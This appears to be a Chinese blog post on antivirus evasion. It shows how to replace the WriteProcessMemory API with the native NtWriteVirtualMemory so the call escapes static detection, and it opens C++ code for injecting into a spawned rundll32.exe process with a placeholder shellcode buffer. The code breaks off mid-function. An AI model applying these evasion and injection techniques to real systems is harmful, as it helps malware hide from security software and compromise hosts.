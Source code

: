 >因为蚂蚁笔记官方图片服务器极其不稳定，如果本文出现图片加载不出的问题，请转到此链接查看：https://shimo.im/docs/VJyDCRwT3qJqjY89/ 


起因是我的 WriteProcessMemory API 被某 AV 静态查杀。刚好以此 API 为例给出三种替换 R3 API 为对应内核 API 进行免杀的方式。

代码都是从我自己的项目中复制的一些，所以有无关代码，看重点就好。

# 方法1：ntdll.lib

```
#include <stdio.h>
#include <windows.h>
#include <tchar.h>
#include <conio.h>
#include <iostream>
#include <tlhelp32.h>
#include <typeinfo>
#include "corecrt_wstring.h"


using namespace std;


#pragma comment(lib, "ntdll.lib")


extern "C" __declspec(dllimport) NTSTATUS NTAPI NtWriteVirtualMemory(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    IN PVOID                Buffer,
    IN ULONG                NumberOfBytesToWrite,
    OUT PULONG              NumberOfBytesWritten);


void _tmain(int argc, _TCHAR* argv[])
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    BOOL process_result = 0;
    BOOL memory_result = 0;
    BOOL context_result = 0;
    BOOL eip_result = 0;
    DWORD resume_result = 0;
    LPVOID rwxpage;
    CONTEXT threadContext;


    int length;
    unsigned char buf[] = "\xcc\xcc\xcc\xc3";
    length = sizeof(buf) / sizeof(buf[0]);


    wchar_t CommandLine[MAX_PATH] = { 0 };
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));


    /*step 0:判断机器是 32 还是 64 位，以此确定 32-bit 程序 notepad.exe 的路径*/
    const int nBitSys = GetSystemBits();
    if (nBitSys == 32)
    {
        wcscpy_s(CommandLine, L"C:\\Windows\\System32\\rundll32.exe");
    }
```